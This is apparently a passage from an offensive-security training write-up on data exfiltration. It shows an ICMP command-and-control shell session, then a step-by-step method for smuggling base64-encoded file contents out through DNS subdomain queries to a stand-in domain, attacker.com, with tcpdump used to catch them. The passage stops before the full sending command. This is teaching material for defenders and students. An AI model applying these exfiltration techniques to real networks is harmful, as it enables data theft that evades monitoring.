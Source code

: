 Next on the attacker machine, we execute `icmp-cnc` binary to communicate with the victim, our ICMP-Host. Once the execution runs correctly, a communication channel is established over the ICMP protocol. Now we are ready to send the command that needs to be executed on the victim machine.

```
sudo icmp-cnc -i eth1 -d ip

shell: hostname 
hostname 
shell: icmp-host
```

#### DNS

The DNS protocol is allowed in almost all firewalls in any organization network. For those reasons, threat actors prefer using the DNS protocol to hide their communications. **DNS Protocol Considerations**

* The maximum length of the Fully Qualified FQDN domain name (including .separators) is 255 characters.
* The subdomain name (label) length must not exceed 63 characters (not including .com, .net, etc).

**Manual DNS Data Exfiltration**

**Data Exfiltration**

**Exfiltration over DNS - The Methodology**

1. An attacker registers a domain name, for example, `attacker.com`
2. The attacker sets up `attacker.com's` NS record points to a server that the attacker controls.
3. The malware or the attacker sends sensitive data from a victim machine to a domain name they control—for example, `data.attacker.com`, where **data** is the data that needs to be transferred.
4. The DNS request is sent through the local DNS server and is forwarded through the Internet.
5. The attacker's authoritative DNS (malicious server) receives the DNS request.
6. Finally, the attacker extracts the `data` from the domain name. **Steps after compromising the victim machine**
7. Get the required data that needs to be transferred.
8. Encode the file using one of the encoding techniques.
9. Send the encoded characters as subdomain/labels.
10. Consider the limitations of the DNS protocol. Note that we can add as much data as we can to the domain name, but we must keep the whole URL under 255 characters, and each subdomain label can't exceed 63 characters. If we do exceed these limits, we split the data and send more DNS requests! **Putting steps into practical scenario** `From the attacker machine` In order to receive any DNS request, we need to capture the network traffic for any incoming UDP/53 packets using the tcpdump tool.

```
sudo tcpdump -i eth0 udp port 53
```

`From the victim machine` Lets say the data we want to exfiltrate is contained in a text file named `data.txt`. We encode it to base64

```
cat data.txt | base64
```

In the below command, we read the file's content and encoded it using Base64. Then, we cleaned the string by removing the new lines and gathered every 18 characters as a group. Finally, we appended the name server "attacker.com" for every group. Also we split every 18 characters with a dot "." and add the name server
